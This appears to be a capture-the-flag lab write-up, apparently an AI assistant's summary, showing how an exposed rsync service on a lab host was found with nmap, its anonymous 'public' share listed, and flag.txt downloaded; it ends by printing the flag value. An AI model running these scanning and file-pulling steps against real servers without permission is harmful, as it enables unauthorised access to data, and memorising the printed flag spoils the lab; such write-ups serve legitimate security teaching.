 # rsync

Here's a summary of the **rsync** commands you used and the steps taken to retrieve the flag:

***

#### **1. Identified the rsync Service**

*   Using **Nmap**, you discovered the **rsync service** running on port `873`:

    ```bash
    sudo nmap -p- --min-rate=1000 -sV 10.129.228.37
    ```
*   Output showed:

    ```
    PORT    STATE SERVICE VERSION
    873/tcp open  rsync   (protocol version 31)
    ```

***

#### **2. Enumerated rsync Shares**

*   You listed available shares on the server using the `--list-only` flag:

    ```bash
    rsync --list-only 10.129.228.37::
    ```
* Output revealed a share called **`public`** with the description **`Anonymous Share`**.

***

#### **3. Checked Contents of the `public` Share**

*   You listed the files in the `public` share:

    ```bash
    rsync --list-only 10.129.228.37::public
    ```
*   Output revealed:

    ```
    -rw-r--r--             33 2022/10/25 10:32:03 flag.txt
    ```

***

#### **4. Downloaded the `flag.txt` File**

*   After verifying the presence of `flag.txt`, you downloaded it using **rsync**:

    ```bash
    rsync 10.129.228.37::public/flag.txt flag.txt
    ```

***

#### **5. Verified and Read the File**

*   After downloading, you checked the file with:

    ```bash
    ls
    ```

    * Output confirmed `flag.txt` was in your current directory.
*   You displayed its contents with:

    ```bash
    cat flag.txt
    ```

    *   Output:

        ```
        72eaf5344ebb84908ae543a719830519
        ```

***

#### **Summary of Key Steps**

1. Used **Nmap** to find the rsync service.
2. Enumerated available rsync shares and found the `public` share.
3. Discovered and downloaded the `flag.txt` file from the `public` share.
4. Retrieved the flag: **`72eaf5344ebb84908ae543a719830519`**.

Let me know if you need further clarification! 🚀
